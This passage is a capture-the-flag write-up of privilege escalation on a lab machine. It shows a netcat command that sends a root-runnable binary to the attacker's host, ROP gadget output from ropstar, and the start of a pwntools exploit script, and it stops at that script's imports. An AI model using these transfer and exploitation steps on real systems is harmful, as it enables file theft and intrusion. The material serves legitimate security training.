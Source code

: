<pre>dave@daves-blog:/home$ sudo -l
sudo -l
Matching Defaults entries for dave on daves-blog:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User dave may run the following commands on daves-blog:
    (root) NOPASSWD: /uid_checker
</pre>

This is an ELF file. Running strings gave us the fourth flag. 

Let's transfer this to our local machine. I used netcat.

<pre>nc -nvlp 8888 > elf</pre>

On the remote host:

<pre>cat uid_checker | nc 10.9.6.63 8888</pre>

We have our binary / ELF. I run checksec on this file to find out about the properties of this executable:

<pre>checksec elf</pre>

![checksec](https://imgur.com/pgQinU8.png)

We can use a technique called **Return Oriented Programming (ROP)**. This essentially uses existing code in the executable to perform certain key functions for us.

In order to achieve this, we need to find a "Gadget". This is a chain which ends with **ret instruction c3**.

This is a good video explaining how this technique works:

[ROP exploit explained - Rapid7](https://www.rapid7.com/resources/rop-exploit-explained/)

I will be using **ropstar** to help exploit. 

[Ropstar - Github](https://github.com/xct/ropstar)

<pre>python3 ~/tools/ropstar/ropstar.py elf</pre>

We got some important information:

<pre>[*] Loaded 14 cached gadgets for 'elf'
[*] 0x0000:         0x400803 pop rdi; ret
    0x0008:         0x601060 [arg0] rdi = 6295648
    0x0010:         0x4005b0
    0x0018:         0x400803 pop rdi; ret
    0x0020:         0x601060 [arg0] rdi = 6295648
    0x0028:         0x400570
</pre>

Now that we have this information, we can use a script using the values we found to exploit this:

<pre>from pwn import cyclic
from pwnlib.tubes.ssh import ssh
from pwnlib.util.packing import p64
